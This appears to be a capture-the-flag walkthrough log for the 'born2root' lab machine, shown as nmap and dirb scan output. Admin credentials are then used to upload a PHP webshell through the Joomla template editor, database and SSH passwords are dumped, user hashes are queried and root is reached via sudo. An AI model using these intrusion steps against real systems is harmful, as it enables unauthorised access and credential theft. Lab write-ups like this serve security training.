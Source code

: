 └─$ sudo nmap -sT -A -Pn -n -p- 192.168.110.15
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-14 09:40 CEST
Nmap scan report for 192.168.110.15
Host is up (0.0011s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Welcome to my website 
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33499/tcp   status
|   100024  1          46887/udp6  status
|   100024  1          50957/udp   status
|_  100024  1          56187/tcp6  status
33499/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:0A:1F:93 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.08 ms 192.168.110.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.08 seconds





└─$ dirb http://192.168.110.15 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Apr 14 11:29:41 2021
URL_BASE: http://192.168.110.15/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.110.15/ ----
==> DIRECTORY: http://192.168.110.15/css/                                                 
==> DIRECTORY: http://192.168.110.15/img/                                                 
+ http://192.168.110.15/index.html (CODE:200|SIZE:8454)                                   
==> DIRECTORY: http://192.168.110.15/javascript/                                          
==> DIRECTORY: http://192.168.110.15/joomla/                                              
==> DIRECTORY: http://192.168.110.15/js/                                                  
+ http://192.168.110.15/LICENSE (CODE:200|SIZE:1093)                                      
==> DIRECTORY: http://192.168.110.15/manual/                                              
+ http://192.168.110.15/server-status (CODE:403|SIZE:302)                                 
==> DIRECTORY: http://192.168.110.15/vendor/                                              
                                                                                          
---- Entering directory: http://192.168.110.15/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.110.15/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.110.15/javascript/ ----
==> DIRECTORY: http://192.168.110.15/javascript/jquery/                                   
                                                                                          
---- Entering directory: http://192.168.110.15/joomla/ ----
==> DIRECTORY: http://192.168.110.15/joomla/administrator/                                
==> DIRECTORY: http://192.168.110.15/joomla/bin/                                          
==> DIRECTORY: http://192.168.110.15/joomla/cache/                                        
==> DIRECTORY: http://192.168.110.15/joomla/components/                                   
==> DIRECTORY: http://192.168.110.15/joomla/images/                                       
==> DIRECTORY: http://192.168.110.15/joomla/includes/                                     
+ http://192.168.110.15/joomla/index.php (CODE:200|SIZE:8504)                             
==> DIRECTORY: http://192.168.110.15/joomla/language/                                     
==> DIRECTORY: http://192.168.110.15/joomla/layouts/                                      
==> DIRECTORY: http://192.168.110.15/joomla/libraries/                                    
==> DIRECTORY: http://192.168.110.15/joomla/media/                                        
==> DIRECTORY: http://192.168.110.15/joomla/modules/                                      
==> DIRECTORY: http://192.168.110.15/joomla/plugins/                                      
==> DIRECTORY: http://192.168.110.15/joomla/templates/                                    
==> DIRECTORY: http://192.168.110.15/joomla/tmp/     





http://192.168.110.15/joomla/administrator/
admin : travel

  Templates --> Template default for all pages --> New file --> Upload
http://192.168.110.15/joomla/templates/protostar/html/shell.php



        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'redhat';
        public $db = 'joomla';
        public $dbprefix = 'v3rlo_';
        public $live_site = '';
        public $secret = 'qognJLTotftnguG7';


mysql> select username, password from v3rlo_users;
select username, password from v3rlo_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$FX6CxjTiIwHGnsDmkxRQ2OouVh5NuxV1/6zqwtwX4zOBwadalPBsq |
+----------+--------------------------------------------------------------+



www-data@born2root:/opt/scripts$ cat fileshare.py
cat fileshare.py
#!/usr/bin/env python

import sys, paramiko

if len(sys.argv) < 5:
    print "args missing"
    sys.exit(1)

hostname = "localhost"
password = "lulzlol"
source = "/var/www/html/joomla"
dest = "/tmp/backup/joomla"

username = "tim"
port = 22

try:
    t = paramiko.Transport((hostname, port))
    t.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(t)
    sftp.get(source, dest)

finally:
    t.close()


tim@born2root:~$ sudo -l
sudo -l
[sudo] password for tim: lulzlol

Matching Defaults entries for tim on born2root:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tim may run the following commands on born2root:
    (ALL : ALL) ALL
tim@born2root:~$ 

tim@born2root:~$ sudo id
sudo id
uid=0(root) gid=0(root) groups=0(root)



Program python pour tester authentification joomla



